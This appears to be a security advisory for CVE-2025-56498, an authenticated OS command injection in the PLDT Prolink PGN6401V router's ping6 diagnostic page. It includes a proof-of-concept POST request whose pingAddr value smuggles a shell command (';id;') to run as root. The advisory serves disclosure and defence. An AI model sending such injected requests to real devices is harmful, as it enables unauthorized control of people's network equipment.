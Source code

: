 # CVE-2025-56498: OS Command Injection in PLDT Prolink PGN6401V Router

## Basic Information

| **Field** | **Value** |
| :--- | :--- |
| **CVE ID** | [CVE-2025-56498](https://www.cve.org/CVERecord?id=CVE-2025-56498) |
| **Title** | OS Command Injection in `ping6.asp` via `pingAddr` parameter |
| **Vendor** | PLDT / Prolink |
| **Product** | PLDT WiFi Router (Prolink PGN6401V) |
| **Affected Version** | Firmware V8.1.2 (other versions likely affected) |
| **Vulnerability Type** | CWE-78: OS Command Injection |
| **Impact** | Remote Code Execution (RCE) with root privileges |
| **Discoverer** | Jorge Patrick S. Rubio |

## Overview
An OS command injection vulnerability exists in PLDT WiFi Router's Prolink PGN6401V Firmware 8.1.2 web management interface. The ping6.asp page submits user input to the /boaform/formPing6 endpoint via the pingAddr parameter, which is not properly sanitized. An authenticated attacker can exploit this flaw by injecting arbitrary system commands, which are executed by the underlying operating system with root privileges. The router uses the Boa web server (version 0.93.15) to handle the request. Successful exploitation can lead to full system compromise and unauthorized control of the network device.

## Vulnerability Details
The vulnerability resides in the IPv6 diagnostic utility of the router's web interface. The `ping6.asp` page submits user-controlled input from the `pingAddr` parameter via a POST request to `/boaform/formPing6`. This input is not properly sanitized before being passed to a system shell command, allowing for injection of arbitrary commands using shell metacharacters.

*   **Affected Component:** `ping6.asp` page and the `/boaform/formPing6` form handler.
*   **Vulnerable Parameter:** `pingAddr`
*   **Web Server:** Boa/0.93.15

## Proof of Concept (PoC)
An authenticated attacker can send a crafted HTTP POST request to exploit this vulnerability.

**Request:**
```http
POST /boaform/formPing6 HTTP/1.1
Host: 192.168.1.1
Content-Type: application/x-www-form-urlencoded
Cookie: [VALID_ADMIN_SESSION_COOKIE]
Content-Length: 87

pingAddr=192.168.1.1%3Bid%3B&wanif=65535&go=+Go&submit-url=%2Fping6.asp
```

## References
- [CWE-78: OS Command Injection](https://cwe.mitre.org/data/definitions/78.html)  
- [OWASP: Command Injection](https://owasp.org/www-community/attacks/Command_Injection)  
- [PortSwigger Web Security Academy: OS Command Injection](https://portswigger.net/web-security/os-command-injection)  
